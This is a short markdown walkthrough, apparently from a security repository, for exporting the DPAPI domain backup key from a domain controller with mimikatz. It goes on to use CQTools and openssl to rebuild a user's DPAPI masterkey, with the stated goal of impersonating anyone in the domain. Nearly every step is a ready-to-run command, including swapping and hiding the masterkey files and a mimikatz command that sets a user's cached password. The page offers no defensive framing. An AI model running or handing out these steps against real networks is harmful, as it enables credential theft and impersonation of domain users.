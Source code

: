 ## Exporting DPAPI Domain Backup Key from a domain controller with mimikatz, and explaining how to recreate a user's masterkey (AKA Impersonate ANYONE within the domain)

### Tools: Mimikatz, CQTools https://github.com/BlackDiverX/cqtools

### Requirements: System level access on the host

### Steps:

#### 1) 

    mimikatz.exe 

#### 2) 

    lsadump::backupkeys /system:localhost /export (Dump the DPAPI Domain Backup Key from DC)

#### 3) Transfer the .pfx container, as well as some of the CQtools (CQDPAPIBlobSearcher.exe and CQMasterKeyAD.exe to target machine of your choice)

#### 4) 

    CQDPAPIBlobSearcher.exe /d c:\users\USER\AppData\Roaming /r /o c:users\USER\Desktop\blob (Finds the Masterkey, which shown as mkguid on results)

#### 5) Attacking machine: 

    openssl pkcs12 -in DMK.pfx -out temp.pem -nodes (Password is mimikatz because it was extracted with mimikatz from DC)

#### 6) Attacking machine: 

    openssl pkcs12 -export -out DMK.pfx -in temp.pem (Use cqure as passphrase. We repacked the pfx using "cqure" as passphrase to make the cqtool work or else it will fail)

#### 7) 

    CQMasterKeyAD.exe /file "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" /pfx DMK.pfx /newhash NTLM_HASH_OF_USER

#### 8) 

    ren OLD_MASTERKEY_FILE WHATEVER

#### 9) 

    ren NEW_MASTERKEY_FILE OLD_MASTERKEY_FILE

#### 10) 

    attrib "c:\users\USER\appdata\roaming\microsoft\protect\USER_SID\MASTERKEY" +S +H (Shuffle the old and new masterkey files, then give the same attributes to the newly created masterkey file as the old one)

#### 11) VOILA!

## TIP: In case we cannot crack the NTLM password of a user, we can simply create a new password with mimikatz: 

    lsadump::cache /user:USER /password:NEW_PASSWORD /kiwi
